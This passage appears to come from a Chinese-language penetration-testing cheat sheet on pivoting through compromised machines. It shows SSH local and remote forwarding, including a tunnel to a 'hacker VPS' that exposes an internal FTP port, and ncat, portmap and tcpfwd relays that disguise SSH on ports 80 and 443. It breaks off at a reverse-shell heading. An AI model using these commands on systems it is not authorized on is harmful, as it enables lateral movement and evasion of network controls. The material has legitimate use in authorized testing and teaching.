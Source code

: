     输入 A 机器密码，本地利用 proxychains 等类似工具连接本地的 1111 端口的 sock5 连接即可代理 A 机器的网络。

-   场景 b：如果控制 A、B 机器，A 能够访问 B，且能出网，B 能够访问 C，但不能出网，A 不能访问 C  
    A 机器执行：
    
    1.  `ssh -CNfg -L 2121:CIP:21 root[@BIP](https://github.com/BIP "@BIP")`
    
    输入 BIP 机器密码，访问 A 的 2121 端口即是访问 CIP 的 21 端口。

-   场景 c：控制 A 机器，A 能够访问 B  
    A 机器执行：
    
    1.  `ssh -CNfg -R 2121:BIP:21 root[@hackervps](https://github.com/hackervps "@hackervps")`
    
    输入黑客 VPS 密码，访问黑客 VPS 的 2121 端口即是访问 BIP 的 21 端口。

## nc/ncat

服务端执行监听命令：

```css
ncat --sh-exec "ncat 127.0.0.1 22" -l 80 --keep-open
```

客户端连接服务端的 80 端口即可 SSH 连接：

```plain
SSH root@serverip -p 80
```

## portmap

服务端执行：

```css
portmap -m 1 -p1 80 -h2 127.0.0.1 -p2 22
```

客户端连接服务端的 80 端口即可 SSH 连接：

```plain
SSH root@serverip -p 80
```

## portfw

服务端执行：

```css
tcpfwd 0.0.0.0:443 127.0.0.1:22
```

客户端连接服务端的 443 端口即可 SSH 连接：

```plain
SSH root@serverip -p 443
```

# 反弹 shell
